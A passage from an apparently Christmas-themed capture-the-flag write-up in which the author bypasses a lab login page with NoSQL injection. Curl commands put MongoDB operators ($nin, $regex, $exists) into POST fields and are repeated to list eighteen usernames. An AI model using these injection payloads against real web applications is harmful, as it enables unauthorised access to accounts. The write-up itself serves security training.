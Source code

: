 ``` 
...
```
It would appear that the first username in the database is `Frostbite` but their dashboard is mostly empty and we have no useful information, so maybe we can start looking into what other usernames are available and what they have on their dashboards.

To do this I modified the `curl` command I used earlier to now exclude the username `Frostbite` and match on the next available one:

```
curl -u 'admin:Y3<R E D A C T E D>n' -s http://10.10.106.239:8080/login.php -X POST -d 'username[$nin][0]=Frostbite&password[$regex]=.*' -L -c cookie
```

This time we see the message **Welcome `Snowballer`!**, but again not much else.  

What comes next is a painstaking bit of repetitive trial and error which probably could have been automated but I would then have had to figure out how to break out of the shell on the IP camera or establish some kind of proxy - which I really couldn't be bothered with.

I kept adding each new username I found to the `curl` command as yet another username to be excluded.  To keep things slightly more manageable I added the switch `-w 'Size: %{size_download}\n` to the command so that I could easily see if there was a significant change in the size of the retrieved data from one username to the next.  I also added a `| grep -e Welcome -e Size` so that for each new `curl` command I tried I would only get an output showing the Welcome message with the newly discovered username and the size of the retrieved data.

Finally after 18 iterations of the `curl` command I enumerated the following usernames:
```
Frostbite
Snowballer
Slushinski
Blizzardson
Tinseltooth
Snowbacca
Grinchowski
Scroogestein
Sleighburn
Northpolinsky
Frostington
Tinselova
Frostova
Iciclevich
Frostopoulos
Grinchenko
Snownandez
Frosteau
```

It was not possible to retrieve any further usernames, so I am assuming that this list is comprehensive, but nevertheless the `curl` request that returned the last username; `Frosteau` had a significantly larger file size - so that is most probably the user we should be looking at anyway.

The final curl command I used was:
```
curl -u 'admin:Y3<R E D A C T E D>n' -s http://10.10.106.239:8080/login.php -X POST -d 'username[$nin][0]=Frostbite&username[$nin][1]=Snowballer&username[$nin][2]=Slushinski&username[$nin][3]=Blizzardson&username[$nin][4]=Tinseltooth&username[$nin][5]=Snowbacca&username[$nin][6]=Grinchowski&username[$nin][7]=Scroogestein&username[$nin][8]=Sleighburn&username[$nin][9]=Northpolinsky&username[$nin][10]=Frostington&username[$nin][11]=Tinselova&username[$nin][12]=Frostova&username[$nin][13]=Iciclevich&username[$nin][14]=Frostopoulos&username[$nin][15]=Grinchenko&username[$nin][16]=Snownandez&password[$exists]=true' -L -c cookie -w 'Size: %{size_download}\n' | grep -e Welcome -e Size
```
